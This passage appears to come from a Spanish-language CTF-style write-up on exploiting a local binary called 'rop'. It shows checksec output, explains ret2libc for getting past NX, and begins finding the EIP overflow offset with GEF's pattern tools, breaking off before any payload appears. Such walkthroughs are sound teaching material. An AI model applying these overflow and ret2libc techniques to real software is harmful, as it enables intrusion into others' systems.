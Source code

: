 ```bash
96 commands loaded for GDB 10.1.90.20210103-git using Python engine 3.9
Reading symbols from rop...
(No debugging symbols found in rop)
gef➤  checksec
[+] checksec for '/home/z3r0byte/Descargas/rop'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

Bien, tras ejecutar `checksec` me doy cuenta de que el binario tiene el [NX](https://es.wikipedia.org/wiki/Prevenci%C3%B3n_de_ejecuci%C3%B3n_de_datos){:target="\_blank"}{:rel="noopener nofollow"} habilitado.

Esto es una característica de seguridad implementada a la hora de **compilar el binario** que hace que no se sea posible ejecutar código almacenado en la pila.

Al ver esto, pienso en que podríamos aprovecharnos de una técnica llamada [Ret2libc](https://www.hackplayers.com/2021/01/taller-de-exploiting-ret2libc-en-linux-x64.html){:target="\_blank"}{:rel="noopener nofollow"}, esto consiste en ejecutar código que **no se encuentra en la pila** sino en un sector de la memoria de [libc](https://es.wikipedia.org/wiki/Biblioteca_est%C3%A1ndar_de_C){:target="\_blank"}{:rel="noopener nofollow"}, que es una librería que contiene **funciones de C** como `system()`, `exit()`, etc.

Con esto podríamos _bypassear_ la **protección** que tiene el binario.

Pero hay una gran duda, ¿Cómo hacemos esto?.

### 1º paso: Encontrar el offset

¿Que es el `offset`? El `offset` el la **cantidad de caracteres** que se deben enviar antes de **sobreescribir** el `EIP`, que es el **registro** que dice a donde va el **flujo de ejecución** del programa.

![image](https://user-images.githubusercontent.com/67548295/134777657-d46dabcb-3b1e-4632-89a9-b2e4423329d9.png)

Yo no sé cuantas carácteres tengo que introducir para llegar al EIP, eso lo podemos averiguar con la función `pattern create` y `pattern offset` de la utilidad `gef`:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ gdb rop
GEF for linux ready, type `gef' to start, `gef config' to configure
96 commands loaded for GDB 10.1.90.20210103-git using Python engine 3.9
Reading symbols from rop...
(No debugging symbols found in rop)

gef➤  pattern create 75

[+] Generating a pattern of 75 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaa
[+] Saved as '$_gef0'

gef➤  r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaa

Starting program: /home/z3r0byte/Descargas/rop aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaa
Program received signal SIGSEGV, Segmentation fault.
0x6161616e in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x4b      
$ebx   : 0xffffd0b0  →  0x00000002
```